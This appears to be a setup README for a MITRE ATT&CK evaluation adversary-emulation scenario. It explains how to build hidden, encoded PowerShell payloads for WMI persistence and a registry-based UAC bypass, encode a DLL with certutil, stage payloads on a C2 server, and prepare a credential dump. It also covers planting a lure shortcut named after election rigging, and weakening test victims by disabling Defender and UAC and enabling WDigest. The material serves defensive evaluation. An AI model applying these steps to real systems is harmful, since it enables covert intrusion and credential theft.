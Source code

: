 ### Generate an encoded PowerShell oneliner payload, then copy:
1. Just the encoded portion (ex: `WwBTAH...=`) into `$enc_ps variable` (4th line from bottom) in `schemas.ps1`
    *  ex: `$enc_ps = "WwBTAH...=="`
2. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `CommandLineTemplate` variable (under `$ConsumerArgs` in 2nd paragraph) in `stepFifteen_wmi.ps1`
    *  ex: `CommandLineTemplate="powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`
3. The entire value (ex: `powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...=`) into `-Value` variable (2nd line) in `stepFourteen_bypassUAC.ps1`
    *  ex: `New-Item -Force -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Value "powershell -exec bypass -Noninteractive -windowstyle hidden -e WwBTAH...="`

### Generate DLL payload, then on a separate Windows host:
1. [CMD] > `certutil -encode [file].dll blob`
2. [CMD] > `powershell`
3. [PS] > `$blob = (Get-Content .\blob) -join ""; $blob > .\blob`
4. Open `blob` file in text editor
5. Delete new line at end of file and copy all (CTRL-A, CTRL-C)
6. Paste value (ex: `-----BEGIN CERTIFICATE-----...-----END CERTIFICATE-----`) into `$bin` variable (6th line) in `schemas.ps1`

### Copy payloads to C2 server (wherever is appropriate for your C2 framework to have access to these files)

### Update `stepFourteen_credDump.ps1` -- directions are in file

### Prepare initial access payloads:
1.  Login as non-domain admin user
2.  Copy over the following files onto the Desktop of the initial victim:
    1. `2016_United_States_presidential_election_-_Wikipedia.html`
    2. `make_lnk.ps1`
    3. `schemas.ps1`
2.  Copy over `MITRE-ATTACK-EVALS.HTML` into the Documents folder of the initial victim
3.  Execute `make_lnk.ps1` (Right click > Run with PowerShell), this will generate `37486-the-shocking-truth-about-election-rigging-in-america.rtf.lnk`
4.  Drag `make_lnk.ps1` and `schemas.ps1` to Recycle Bin and empty the Recycle Bin (Right click > Empty Recycle Bin)

## Victim Setup

### For each of the 3 victims:
1. Login in as domain admin user
2. Ensure Windows Defender is off or configured to alert-only (https://support.microsoft.com/en-us/help/4027187/windows-10-turn-off-antivirus-protection-windows-security)
3. Change network type to Domain (https://www.itechtics.com/change-network-type-windows-10/#2-_Setting_network_type_using_Windows_Registry)
4. Set UAC to never notify (https://articulate.com/support/article/how-to-turn-user-account-control-on-or-off-in-windows-10)
5. Enable WinRM (https://support.microsoft.com/en-us/help/555966)
6. Enable UseLogonCredential in the WDigest Registry settings (https://support.microsoft.com/en-sg/help/2871997/microsoft-security-advisory-update-to-improve-credentials-protection-a)
